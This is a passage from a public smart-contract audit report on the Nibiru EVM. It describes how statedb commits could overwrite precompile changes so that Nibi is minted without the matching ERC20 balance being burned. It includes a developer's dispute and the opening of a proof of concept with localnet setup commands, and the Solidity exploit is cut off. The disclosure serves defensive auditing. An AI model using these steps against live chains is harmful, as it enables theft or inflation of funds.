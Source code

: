 - **`CreateFunToken`:** Add Nibi, or any valuable coin to `FunToken`.
- **`ConvertCoinToEvm`:** Convert Nibi to ERC20.
- Create eth tx that performs this in the smart contract:
    - Transfer WEI to add object to `statedb`.
    - Convert `X` ERC20 to Nibi through `FunToken.sendToBank`. It would reduce `balanceOf` contract by `X` amount, and mint `X` Nibi coins to the contract.
- At the end of `ethereumTx`, `statedb` would commit the `balanceOf` contract to the initial balance before `FunToken.sendToBank`.

The transfer to add object to statedb can also be done after `precompile` is called because `statedb` would get account and object from `evmTxCtx` which is lagging `cachedCtx`.

### Recommended mitigation steps

Make sure `EthereumTx.statedb` knows what `CallContracts` in `precompile` have done, and it has to work well when reverts occur.

**[k-yang (Nibiru) disputed and commented](https://github.com/code-423n4/2024-11-nibiru-findings/issues/24#issuecomment-2550239016):**
 > I don't agree with the statement: 
 >> However, the issue arises because `EvmState` and `Account` modifications made within `cachedCtx` can be overwritten when `statedb.commitCtx` commits the state changes.
> 
> `writeToCommitCtxFromCacheCtx()` writes the changes from `cacheCtx` to `evmTxCtx `, so `cacheCtx` changes are never lost. And furthermore, `s.commitCtx(s.GetEvmTxContext())` writes the `stateObject` changes from `StateDB` to `evmTxCtx`, so `evmTxCtx` accrues all pending changes.
> 
> I firmly believe this is a false positive, but I'm happy to dive deeper into it if the warden can provide a more thorough attack scenario, with actual working code and transactions.

**[0x007 (warden) commented](https://github.com/code-423n4/2024-11-nibiru-findings/issues/24#issuecomment-2558467747):**
 > ### POC
> **1. Start localnet:**
>
> ```
> just localnet
> ```
> 
> **2. Create Nibi `Funtoken`:**
>
> ```
> nibid tx evm create-funtoken --bank-denom unibi --from validator --gas auto --gas-adjustment 1.5 --note "" --yes
> ```
> 
> **3. Mint 1 million Nibi to account:**
>
> ```
> nibid tx evm convert-coin-to-evm 0xC0f4b45712670cf7865A14816bE9Af9091EDdA1d 1000000000000unibi --from validator --gas auto --gas-adjustment 1.5 --note "" --yes
> ```
> 
> **4. Create contract:**
>
> Add the following to [contracts](https://github.com/code-423n4/2024-11-nibiru/tree/main/evm-e2e/contracts) in a new file named `POC24.sol`:
>
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.8.24;
> 
> import {IERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
> 
> interface IFunToken {